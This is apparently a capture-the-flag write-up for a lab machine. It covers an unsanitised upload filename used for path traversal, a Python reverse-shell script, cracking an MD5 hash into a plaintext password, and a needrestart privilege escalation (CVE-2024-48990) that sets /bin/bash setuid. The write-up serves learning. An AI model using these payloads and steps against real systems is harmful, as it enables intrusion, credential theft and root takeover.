









## Machine Browsed (Active) [Easy]

lets start with an nmap scan : 
```
        ❯ nmap -T4 -sV -F 10.129.1.53
        Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-20 21:39 +0100
        Nmap scan report for 10.129.1.53
        Host is up (0.50s latency).
        Not shown: 98 closed tcp ports (reset)
        PORT   STATE SERVICE VERSION
        22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
        80/tcp open  http    Apache httpd 2.4.52
        Service Info: Host: conversor.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        Nmap done: 1 IP address (1 host up) scanned in 17.84 seconds
```

web port + ssh port. \
lets check on the web port: \
\
alr so theres a login page and a register page;\
i created an account ```testUser``` and ``` testPass``` and we get this : \
 \
i think i know where this is going, wait.. /
i found the /about page and it has a "download source code button" lets check the source code :/

=====================================\
 hello, after like an hour of testing different stuff :
  I found something (with some help):
  in the source code : 
  ```
    parser = etree.XMLParser(resolve_entities=False, no_network=True)
    xml_tree = etree.parse(xml_path, parser)

  ```
xml code is sanitized , BUT 

``` 
xslt_tree = etree.parse(xslt_path)
```
xslt code isnt, so it's INJECTABLE \
there's this too :
```
xml_path = os.path.join(UPLOAD_FOLDER, xml_file.filename)
xml_file.save(xml_path)
```

the filename is not sanitized, meaning we could do some path traversal stuff:
That means if we name our file `../scripts/shell.py`, it writes there instead of the uploads folder !

and also, also in the install.md file there's this :\
\
so we just inject a reverse shell script and wait a minute (or less), and we get shell : 
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("{YOUR_IP}",{YOUR_PORT}))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/bash","-i"])
```
and we send it instead of the xml file; after a minute .... \
\
voila !
now to get the user flag, we are not the user yet. 
```
sudo -lcat /etc/passwd | grep -v nologin | grep -v false
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
fismathack:x:1000:1000:fismathack:/home/fismathack:/bin/bash

```

alr so we need to get ssh creds for ``` fismarthack ```, 10 minutes later, i find this user.db file in the app directory (which is not empty compared to the one i was given as source code, obviously (was dumb of me)), anyways, i found users with their password hashes, and ``` fismarthack ``` was one of their users, and one thing i wish for, is that he uses the same password across different platforms, fist of all lets try to crack it , the hash is ``` 5b5c3ac3a1c897c94caad48e6c71fdec ``` which an MD5 hash, crackable, ez: 
```
hashcat -m 0 5b5c3ac3a1c897c94caad48e6c71fdec /usr/share/wordlists/rockyou.txt
```
and we get the password : ``` Keepmesafeandwarm ```\
and there we are baby \
 \
alr now time for some priv esc and let's get the root :\
\
so we need to exploit needrestart in some kind of way, let's see;
after some time, I found out about something, CVE-2024-48990\
\
funny af, you can hijack what Python interpreter it uses via environment variables, so all i had to do is:
- make some python process run in the background (thats what makes needrestart run and scan) ``` python3 -c "import time; time.sleep(60)" &```
- create what we will hijack with : ``` echo 'import os; os.system("chmod +s /bin/bash")' > /tmp/os.py ``` (since it uses the os library)
- then do the actual hijacking: ``` PYTHONPATH=/tmp sudo /usr/sbin/needrestart ```

-- update : it's not working for some reason, ill check on it later 


Hello from tomorrow, i found an article online about this priv vuln on needrestart 3.7, what appeared is that neerestart can take custom config files, so we can create an evil config file that contains instructions like opening a root as shell, and execute them as root without needing the password : \
\

and voila !\


SOLVED !\
\
I spent hours stuck in rabbit holes while the solution paths were really ez, but its alr since i'm still building my intuition one by one. \
cya


